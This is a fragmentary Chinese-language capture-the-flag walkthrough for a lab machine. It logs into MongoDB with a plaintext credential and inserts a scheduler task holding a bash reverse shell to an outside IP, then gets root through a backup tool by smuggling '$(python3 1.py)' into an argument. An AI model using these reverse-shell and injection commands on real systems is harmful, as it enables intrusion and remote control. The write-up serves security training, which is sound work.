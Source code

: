 ```javascript
```

发现存在rce漏洞

```
 mongo -u mark -p 5AYRft73VtFpc84k scheduler
```

根据上述代码我们执行

```
> show collections;
tasks
> db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/172.20.10.12/1235 0>&1'"})
WriteResult({ "nInserted" : 1 })
发现不好用需要一个pty的shell

```

bash -c 'bash -i >& /dev/tcp/172.20.10.12/1236 0>&1'

## flag1

![image-20221207215222421](./img/image-20221207215222421.png)

backup -q "45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474" "

backup -q '' $(python3 1.py);





## flag2

解码就行很简单
